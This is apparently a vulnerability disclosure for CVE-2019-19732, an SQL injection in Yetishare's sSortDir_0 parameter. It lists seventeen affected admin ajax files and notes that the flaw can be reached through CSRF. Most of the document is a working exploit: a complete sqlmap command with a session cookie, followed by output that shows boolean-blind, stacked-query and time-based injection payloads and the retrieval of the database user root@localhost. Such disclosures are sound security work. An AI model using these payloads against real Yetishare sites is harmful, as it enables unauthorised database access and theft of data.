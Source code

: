 # CVE-2019-19732
Yetishare SQL Injection in sSortDir_0 parameter - v3.5.2 - v4.5.3. Apart from an admin being able to exploit this, it could also be used in a CSRF attack to trick an admin user into running malicious queries.

# Files affected
* translation_manage_text.ajax.php
* user_manage.ajax.php
* translation_manage.ajax.php
* setting_manage.ajax.php
* server_manage.ajax.php
* payment_manage.ajax.php
* file_report_manage.ajax.php
* file_manage.ajax.php
* download_current.ajax.php
* banned_ip_manage.ajax.php
* account_package_manage.ajax.php
* background_task_manage_log.ajax.php
* account_package_pricing_manage.ajax.php
* background_task_manage.ajax.php
* download_previous.ajax.php
* file_manage_action_queue.ajax.php
* payment_subscription_manage.ajax.php

# Example using sqlmap
```
python sqlmap.py -u 'http://192.168.0.62/admin/ajax/translation_manage_text.ajax.php?languageId=1&sEcho=17&iColumns=5&sColumns=file_icon%2Clanguage_key%2Cenglish_content%2Ctranslated_content%2C&iDisplayStart=0&iDisplayLength=50&mDataProp_0=0&mDataProp_1=1&mDataProp_2=2&mDataProp_3=3&mDataProp_4=4&sSearch=&bRegex=false&sSearch_0=&bRegex_0=false&bSearchable_0=true&sSearch_1=&bRegex_1=false&bSearchable_1=true&sSearch_2=&bRegex_2=false&bSearchable_2=true&sSearch_3=&bRegex_3=false&bSearchable_3=true&sSearch_4=&bRegex_4=false&bSearchable_4=true&iSortingCols=1&iSortCol_0=1&sSortDir_0=asc&bSortable_0=false&bSortable_1=true&bSortable_2=true&bSortable_3=true&bSortable_4=false&filterText=Support' --cookie="filehosting=6r7tecbbbqss2noh359mg0jlm6" --dbms mysql --risk 3 --level 5 -p sSortDir_0 --current-user
```

```
[00:19:10] [INFO] testing connection to the target URL
[00:19:10] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: sSortDir_0 (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause
    Payload: languageId=1&sEcho=17&iColumns=5&sColumns=file_icon,language_key,english_content,translated_content,&iDisplayStart=0&iDisplayLength=50&mDataProp_0=0&mDataProp_1=1&mDataProp_2=2&mDataProp_3=3&mDataProp_4=4&sSearch=&bRegex=false&sSearch_0=&bRegex_0=false&bSearchable_0=true&sSearch_1=&bRegex_1=false&bSearchable_1=true&sSearch_2=&bRegex_2=false&bSearchable_2=true&sSearch_3=&bRegex_3=false&bSearchable_3=true&sSearch_4=&bRegex_4=false&bSearchable_4=true&iSortingCols=1&iSortCol_0=1&sSortDir_0=asc,(SELECT (CASE WHEN (9452=9452) THEN 1 ELSE 9452*(SELECT 9452 FROM INFORMATION_SCHEMA.PLUGINS) END))&bSortable_0=false&bSortable_1=true&bSortable_2=true&bSortable_3=true&bSortable_4=false&filterText=Support

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: languageId=1&sEcho=17&iColumns=5&sColumns=file_icon,language_key,english_content,translated_content,&iDisplayStart=0&iDisplayLength=50&mDataProp_0=0&mDataProp_1=1&mDataProp_2=2&mDataProp_3=3&mDataProp_4=4&sSearch=&bRegex=false&sSearch_0=&bRegex_0=false&bSearchable_0=true&sSearch_1=&bRegex_1=false&bSearchable_1=true&sSearch_2=&bRegex_2=false&bSearchable_2=true&sSearch_3=&bRegex_3=false&bSearchable_3=true&sSearch_4=&bRegex_4=false&bSearchable_4=true&iSortingCols=1&iSortCol_0=1&sSortDir_0=asc;SELECT SLEEP(5)#&bSortable_0=false&bSortable_1=true&bSortable_2=true&bSortable_3=true&bSortable_4=false&filterText=Support

    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query - comment) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: languageId=1&sEcho=17&iColumns=5&sColumns=file_icon,language_key,english_content,translated_content,&iDisplayStart=0&iDisplayLength=50&mDataProp_0=0&mDataProp_1=1&mDataProp_2=2&mDataProp_3=3&mDataProp_4=4&sSearch=&bRegex=false&sSearch_0=&bRegex_0=false&bSearchable_0=true&sSearch_1=&bRegex_1=false&bSearchable_1=true&sSearch_2=&bRegex_2=false&bSearchable_2=true&sSearch_3=&bRegex_3=false&bSearchable_3=true&sSearch_4=&bRegex_4=false&bSearchable_4=true&iSortingCols=1&iSortCol_0=1&sSortDir_0=asc PROCEDURE ANALYSE(EXTRACTVALUE(7487,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x7978466b))))),1)#&bSortable_0=false&bSortable_1=true&bSortable_2=true&bSortable_3=true&bSortable_4=false&filterText=Support
---
[00:19:10] [INFO] testing MySQL
[00:19:10] [INFO] confirming MySQL
[00:19:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0
[00:19:10] [INFO] fetching current user
[00:19:10] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:19:10] [INFO] retrieved: root@localhost
current user: 'root@localhost'
```
